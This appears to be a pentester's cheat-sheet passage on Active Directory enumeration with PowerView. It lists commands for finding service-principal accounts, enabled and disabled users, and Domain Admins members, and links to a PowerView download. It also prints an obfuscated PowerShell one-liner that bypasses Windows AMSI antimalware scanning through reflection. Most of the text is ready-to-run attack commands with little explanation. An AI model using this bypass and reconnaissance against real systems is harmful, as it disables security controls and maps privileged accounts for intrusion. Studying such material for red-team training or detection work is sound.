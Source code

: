 ```
Get-DomainUser -SPN -Properties samaccountname,memberof
```

```
Get-DomainUser -SPN -Properties samaccountname,description
```

Get list of all properties for users in the current domain:
```
Get-DomainUser –Properties samaccountname,pwdlastset,badpwdcount,lastlogon
```

```
Get-DomainUser –Properties description
```

all enabled users, returning distinguishednames
```
Get-DomainUser -UACFilter NOT_ACCOUNTDISABLE -Properties distinguishedname
```

all disabled users
```
Get-DomainUser -UACFilter ACCOUNTDISABLE
```
#### 65 Domain Group Enumeration
Download powerview

https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
bypass AMSI

![[2._Powershell  Bypass#Execution bypass]]
```
SET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

```
import-module .\PowerView.ps1
```

```
Get-DomainGroup
```

Show only the Domain admins users.
```
Get-DomainGroup -Name "Domain admins"
```

Show only the Domain admins users.
```
Get-DomainGroupMember -Name "Domain admins"
```

Find domains:
```
Get-Domain
```
